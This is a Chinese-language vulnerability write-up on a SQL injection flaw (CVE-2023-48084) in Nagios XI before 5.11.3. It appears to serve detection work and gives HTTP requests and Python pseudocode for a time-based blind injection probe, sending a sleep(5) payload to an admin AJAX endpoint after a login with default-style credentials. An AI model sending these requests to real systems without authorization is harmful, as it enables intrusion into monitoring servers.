

# Nagios XI < 5.11.3 SQL 注入漏洞（CVE-2023-48084）

## 漏洞简介
Nagios XI 5.11.3 之前版本存在 SQL 注入漏洞，攻击者可通过 bulk modification 工具的相关接口注入恶意 SQL 语句，进而获取敏感信息或进行未授权操作。

## 影响范围
- 受影响产品：Nagios XI < 5.11.3
- CPE: `cpe:2.3:a:nagios:nagios_xi:*:*:*:*:*:*:*:*`

## 漏洞原理
后端接口未对部分参数进行有效过滤，导致攻击者可通过构造特殊参数注入 SQL 语句，利用 time-based 盲注等方式实现漏洞利用。

## 利用方式与攻击流程
1. 攻击者访问登录页面获取 `nsp` 随机值。
2. 使用合法账号登录系统，获取认证 Cookie。
3. 构造带有 SQL 注入 payload 的 GET 请求，利用 time-based 注入（如 sleep(5)）判断漏洞是否存在。

## 探测原理与流程
### 请求包示例
1. 获取登录页面，提取 `nsp`：
```http
GET /nagiosxi/login.php HTTP/1.1
Host: target.com
```
2. 登录获取 Cookie：
```http
POST /nagiosxi/login.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

nsp=xxx&page=auth&debug=&pageopt=login&username=admin&password=admin&loginButton=
```
3. 注入检测：
```http
GET /nagiosxi/index.php/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=(SELECT+CASE+WHEN+1=1+THEN+sleep(5)+ELSE+sleep(0)+END+) HTTP/1.1
Host: target.com
Cookie: [登录后的 Cookie]
```

### 响应与判定逻辑
- 第 3 步请求响应时间大于等于 5 秒。
- 响应体包含 `Home Dashboard</a>`。

### 伪代码
```python
# 步骤1: 获取 nsp
nsp = extract_nsp(get('/nagiosxi/login.php'))
# 步骤2: 登录
session = login('/nagiosxi/login.php', nsp, username, password)
# 步骤3: 注入检测
start = now()
resp = session.get('/nagiosxi/index.php/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=(SELECT CASE WHEN 1=1 THEN sleep(5) ELSE sleep(0) END)')
if resp.elapsed >= 5 and 'Home Dashboard</a>' in resp.text:
    print('存在 SQL 注入漏洞')
```

### Mermaid 流程图


## 参考链接
- [漏洞分析与利用（bucketcat）](https://github.com/bucketcat/CVE-2023-48084)
- [漏洞分析与利用（Hamibubu）](https://github.com/Hamibubu/CVE-2023-48084)
- [NVD 官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2023-48084)
- [PoC-in-GitHub](https://github.com/nomi-sec/PoC-in-GitHub) 